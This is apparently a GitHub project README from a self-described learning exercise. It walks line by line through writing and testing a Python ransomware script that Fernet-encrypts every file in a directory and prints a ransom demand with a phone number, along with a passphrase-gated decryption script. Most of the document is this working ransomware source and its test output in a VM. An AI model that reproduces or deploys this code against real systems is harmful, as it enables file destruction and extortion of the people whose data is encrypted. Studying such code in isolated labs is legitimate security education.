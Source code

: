 <h3>Ransomware</h3> 

Ransomware deployment using Python scripting

<h3>Objective</h3> 

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

<h3>Skills Learned</h3> 

- Python scripting

- Cryptography

<h3>Tools Used</h3> 

- Python

- Linux VM  

- Fernet

Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

We will insert into the CLI "mkdir ransomware101" to create a directory. 

In the directory we will run "echo "file content" > filename.txt" //  We will run this serveral times to create files: file.txt, file2.txt, and file3.txt.

Next we will create the malware script.

<h3>Creating the Ransomware Script</h3>

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

Ref 2: Creating The Encryption Script (MALWARE.py) 

The ransomware script will be titled, "MALWARE.py".

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

#!/usr/bin/env python3 // First we have to include the shebang for our Python script. This tells Linux to run the file as a Python script. 
 
Import os // Allows Python to interact with the OS.

from cryptography.fernet import Fernet // This imports Fernet so we can use its encryption 128bit encryption abilities. For the script to run properly we need to run "pip install crpytography" in the Linux terminal to install the necessary Python modules.

files = [] // This will create an empty list called "files".

for file in os.listdir() // This is a for loop, this will list all the files in the directory.

if os.path.isfile(file) // If object is a file, add to the file list.

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py": // We are about to create a conditional statement to exclude these files from the list.

continue // This tells the script to continue to the next statement and skip the current iteration, meaning the files in the if statement above will be excluded from the rest of the script. 

files.append(file) // This will append(add) any file targeted in the for loop to the files list.

print(files) // Will display the "files" list in the terminal.

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in write mode and reference the file as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the "files" list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // We have now made contents a alias to the file. This will allow us to plug in the data into the Fernet module.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypts the contents variable with the Fernet key.

with open(file, "wb") as thefile: // Sets the script to write back to "thefile".

thefile.write(contents_encrypted) // Writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed.


<h3>Decryption Sequence</h3> 


![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

Ref 2: Creating The Decryption Script (DECRYPT.py)

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password inputted by the user is equal to the secret phrase we assigned, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

Ref 3: Execution both the Encryption/Decryption Scripts

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key generated by Fernet. This file is excluded from the file list that becomes encrypted in our MALWARE.py script because 
we do not want the encryption key getting encrypted.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and the message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

If you input the correct secret phrase, a message appears thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.

